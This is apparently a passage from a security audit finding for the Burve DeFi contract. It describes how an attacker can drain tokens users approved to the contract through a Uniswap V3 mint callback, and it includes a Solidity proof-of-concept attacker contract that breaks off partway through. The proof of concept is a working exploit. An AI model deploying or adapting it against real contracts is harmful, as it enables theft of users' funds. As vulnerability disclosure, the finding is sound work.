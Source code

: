 ### Impact

**Users suffer a complete loss of any tokens they have approved to the Burve contract, up to their approved amount. The attacker gains these tokens in the form of a Uniswap V3 position that they control and can withdraw at any time.**

This impact is severe because:
1. It affects any user who has approved tokens to the contract, even if they haven't actively used the contract yet
2. The loss can equal the user's full approved amount 
3. The attack can be executed automatically via MEV bots monitoring the mempool for approval transactions
4. The attack leaves no protection options for users once they've approved tokens
5. Stolen funds can be immediately withdrawn by the attacker

### PoC

```solidity
contract MaliciousAttacker {
    // The victim whose funds will be stolen
    address public victim;
    IUniswapV3Pool public pool;

    constructor(address _victim, address _pool) {
        victim = _victim;
        pool = IUniswapV3Pool(_pool);
    }

    // Function to execute the attack
    function attack(
        int24 tickLower,
        int24 tickUpper,
        uint128 amount
    ) external returns (uint128) {
        // Call the pool's mint function with our address as recipient
        // The data parameter encodes the victim's address
        pool.mint(
            address(this), // Position will be owned by this contract
            tickLower,
            tickUpper,
            amount,
            abi.encode(victim) // Critical part - victim's address as source
        );

        // Return the liquidity amount for later withdrawal
        return amount;
    }

    // Function to withdraw the stolen tokens
    function withdrawStolenTokens(
        int24 tickLower,
        int24 tickUpper,
        uint128 liquidity
    ) external returns (uint256 amount0, uint256 amount1) {
        // Burn the position liquidity
        pool.burn(tickLower, tickUpper, liquidity);

        // Collect all tokens
        (amount0, amount1) = pool.collect(
            address(this),
            tickLower,
            tickUpper,
            type(uint128).max,
            type(uint128).max
```
